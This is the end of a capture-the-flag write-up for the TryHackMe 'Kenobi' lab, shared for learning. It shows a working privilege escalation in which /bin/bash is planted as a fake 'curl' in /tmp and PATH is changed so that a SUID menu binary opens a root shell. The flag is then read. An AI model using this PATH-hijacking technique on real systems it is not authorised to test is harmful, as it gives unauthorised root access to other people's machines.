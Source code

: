 ```shell-session
```

Each gives useful information that can be used in many ways. The kernel version can be used to search for exploits. We observe (by use of `strings` on the binary) that the binary uses `curl` without a full path. _So_ we can manipulate the PATH variable to gain a nice root shell session:
```shell-session
kenobi@kenobi:~$ echo /bin/bash > /tmp/curl 
kenobi@kenobi:~$ chmod 777 /tmp/curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ which curl
/tmp/curl

kenobi@kenobi:~$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~#
```

With access to root privileges, we can now get the root flag and call it a day!
```shell-session
root@kenobi:~# cat /root/root.txt 
177b3cd8562289f37382721c28381f02
```

## Conclusion

I hope this writeup was useful. Please consider dropping a star and/or following me on github: https://github.com/NovusEdge

***

- Room  : [Kenobi](https://tryhackme.com/room/kenobi)
- Author: Aliasgar Khimani

